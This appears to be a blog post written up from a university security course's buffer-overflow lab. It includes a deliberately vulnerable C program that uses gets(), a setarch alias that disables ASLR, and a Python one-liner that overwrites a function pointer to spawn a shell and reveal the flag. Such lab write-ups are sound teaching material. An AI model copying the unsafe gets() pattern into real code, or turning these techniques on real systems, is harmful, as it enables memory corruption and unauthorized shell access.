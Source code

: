 ```yaml
---
title: "Buffer Overflow - 2"
date: 2019-07-12T03:00:39+10:00

categories: ["Extended Security", "Musings"]

hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


# Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win(void) {
	printf("Oh noe; my code flow\n");
	system("/bin/sh");
}
void lose(void) {
	system("/usr/games/cowsay `/usr/games/fortune`");
}

int main(int argc, char** argv) {
	// setup local variables
	void (*function)(void) = lose;
	char buffer[64];

    // Print hints
	printf("The winning function is at %p\n",win);
	printf("Do you remember how function pointers work ?\n");

    // get user input, save to buffer
	gets(&buffer);

    // jump to function
	printf("Preparing to jump to %p\n",function);
	fflush(stdout);
	function();

	return EXIT_SUCCESS;
}
```

# Analysis

Similar to the [previous example](../buffer-overflow-01), we need to overflow the `buffer` array and overwrite the address that `function` points to.

To our convenience, the program prints out the address to the `win` function - We just need to write this address through the buffer overflow attack.  
Note that we'll write this backwards due to the little endian memory structure of most systems.

_If line 19 **didn't** exist, we could use other methods to determine the function address of `win`. For example, we could use `objdump -d ./whereami` to find a delta/offset from a known address of another function._

## Address Space Layout Randomization (ASLR)

As you run the program, you would see that the address of the `win` function changes each time.

`The winning function is at 0x566261d9`  
`The winning function is at 0x565ad1d9`  
`The winning function is at 0x5663d1d9`  
`The winning function is at 0x565821d9`  
`The winning function is at 0x565e51d9`  
`The winning function is at 0x566481d9`  

This is a security feature to _(attempt to)_ prevent malicious access to the memory of programs. For example, it would _(attempt to)_ stop someone from modifying a hardcoded memory address of another program.  
But I say attempt, because there are always ways around things.

Take me for example, I don't want to keep typing in new `win` addresses - so why not disable ASLR for the duration of the program!

Here's a shell alias that I use to momentarily disable ASLR.

> `alias aslr='setarch ``uname -m`` -R'`

Simply just prepend it to any command.

For me, it made the winning function _always_ `0x565561d9`.  

```bash
python -c 'print("\x00"*64 + "\xd9\x61\x55\x56")' | aslr ./whereami

---

The winning function is at 0x565561d9
Do you remember how function pointers work ?
Preparing to jump to 0x565561d9
Oh noe; my code flow
COMP6841{Oh_Look_Youre_So_1337_now}
```
